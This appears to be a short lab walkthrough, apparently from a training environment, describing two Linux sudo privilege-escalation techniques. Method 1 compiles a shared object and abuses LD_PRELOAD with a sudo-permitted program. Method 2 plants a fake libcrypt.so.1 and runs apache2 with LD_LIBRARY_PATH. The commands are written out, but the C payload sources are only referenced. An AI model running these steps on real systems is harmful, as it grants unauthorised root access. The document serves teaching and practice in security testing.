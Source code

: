 # environment variables

## Method 1



```bash
sudo -l
```

Create a shared object using the code located at /home/user/tools/sudo/preload.c:

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

now, Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD\_PRELOAD environment variable to the full path of the new shared object:

```bash
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

***

## Method 2



Run ldd against the apache2 program file to see which shared libraries are used by the program:

```bash
ldd /usr/sbin/apache2
```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library\_path.c:

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Run apache2 using sudo, while settings the LD\_LIBRARY\_PATH environment variable to /tmp (where we output the compiled shared object):

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```

